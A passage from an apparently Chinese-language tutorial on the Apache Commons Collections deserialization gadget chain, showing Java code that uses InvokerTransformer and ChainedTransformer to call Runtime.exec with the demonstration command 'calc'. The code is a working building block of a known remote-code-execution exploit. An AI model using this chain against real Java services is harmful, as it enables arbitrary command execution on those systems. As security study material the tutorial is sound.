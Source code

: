 那么我们就可以这么构造，执行命令

```java
//Class c =Runtime.class;
//Method getRuntime = c.getMethod("getRuntime", null);
Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null}).transform(Runtime.class);
//Runtime r = (Runtime) getRuntime.invoke(null, null);
Runtime r = (Runtime) new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(getRuntimeMethod);
//Method exec = c.getMethod("exec", String.class).invoke(r,"calc");
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);
```



* 第四层`org.apache.commons.collections.functors.ChainedTransformer.transform()`

这一层相当于把上面一层的代码优化一下，可以发现上面执行命令的过程中，前一步的输出是后一步的输入

查看`ChainedTransformer.transform()`

```java
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }
```

这里就是实现了递归调用，把前一步的输出，当成后一步的输入

查看`ChainedTransformer`的构造函数

```java
public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }
```

这里只要传进一个`transformers`数组,然后递归调用

构造代码如下

```java
Transformer[] transformers = new Transformer[]{
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
        new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(Runtime.class);
```

